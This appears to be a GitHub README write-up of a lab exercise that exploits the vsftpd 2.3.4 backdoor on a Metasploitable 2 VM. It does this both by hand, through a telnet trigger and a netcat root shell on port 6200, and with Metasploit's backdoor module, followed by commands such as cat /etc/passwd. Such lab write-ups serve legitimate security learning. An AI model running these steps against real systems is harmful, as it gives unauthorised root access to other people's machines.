


# Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## 🔍 Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```



---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```


---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

📸 

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

📸 

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

📸 *Screenshot: Root shell access*

---

## ⚡ Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

📸 *Screenshot: Exploit module selected*

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

📸 *Screenshot: RHOST configured*

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

📸 *Screenshot: Metasploit shell session*

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

📸 *Screenshot: Root access via Metasploit*

---

## 🧠 Lessons Learned

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---

## 📸 Screenshot Suggestions

- Metasploitable IP shown via ifconfig
- Successful ping from Kali
- Nmap scan showing port 21
- Telnet trigger session
- Netcat shell session
- Metasploit shell session
- Commands run post-exploit (whoami, etc.)

---

## ✅ Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell (manual)    | ✅     |
| Metasploit Exploit Used       | ✅     |
| Root Access Verified          | ✅     |
| Screenshots Captured          | ✅     |
| Writeup Created               | ✅     |

---

## 🔚 Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This was a successful offensive security lab that will be used as a portfolio project.
